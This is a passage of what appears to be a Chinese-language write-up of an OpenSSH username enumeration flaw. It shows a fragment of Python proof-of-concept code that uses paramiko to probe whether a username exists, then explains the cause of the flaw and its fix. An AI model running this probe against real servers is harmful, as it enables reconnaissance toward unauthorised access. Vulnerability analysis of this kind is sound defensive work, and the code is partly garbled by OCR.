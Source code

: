 ```
transport.start_client()

except paramiko.ssh_exception.SSHException:

print ‘[-] Failed to negotiate SSH transport’

sys.exit(2) `try:

transport.auth_publickey(args.username, paramiko.RSAKey.generate(2048))

except InvalidUsername:

print ‘[*] Invalid username’

sys.exit(3)

except paramiko.ssh_exception.AuthenticationException:

print ‘[+] Valid username’` 
```

这个漏洞之所以存在，是因为服务器在对消息完整解析之前，用户查询了不存在的用户名。想要修复该漏洞也很简单，按攻击逻辑反着来就行了：首先对消息进行完整解析，然后再建立通信连接。

测试漏洞利用PoC的一种方法就是在调试模式下开启OpenSSH服务器：

![image](img/e446e2e4796a659bb9416da2f4039dc8.png)
